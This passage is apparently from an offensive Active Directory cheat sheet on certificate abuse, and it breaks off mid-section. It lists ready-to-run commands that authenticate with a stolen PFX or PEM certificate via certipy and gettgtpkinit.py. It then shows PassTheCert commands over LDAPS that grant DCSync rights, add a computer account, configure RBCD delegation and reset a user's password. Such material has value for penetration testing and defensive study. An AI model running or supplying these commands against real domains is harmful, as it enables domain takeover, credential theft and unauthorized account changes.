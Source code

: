 #### Linux

```bash
# Authentication with PFX/P12 file
certipy auth -pfx 'user.pfx' -no-hash

# PEM certificate (file) + PEM private key (file)
gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# PFX certificate (file) + password (string, optionnal)
gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
```

### Schannel

If PKINIT is not working on the domain, LDAPS can be used to pass the certificate with `PassTheCert`.

#### Windows

* Grant DCSync rights to an user

```powershell
./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --elevate --target "DC=domain,DC=local" --sid <user_SID>

#To restore
./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --elevate --target "DC=domain,DC=local" --restore restoration_file.txt
```

* Add computer account

```powershell
./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --add-computer --computer-name TEST$ --computer-password <password>
```

* RBCD

```powershell
./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --rbcd --target "CN=DC,OU=Domain Controllers,DC=domain,DC=local" --sid <controlled_computer_SID>
```

* Reset password

```powershell
./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --reset-password --target "CN=user1,OU=Users,DC=domain,DC=local" --new-password <new_password>
```

#### Linux

For RBCD attack
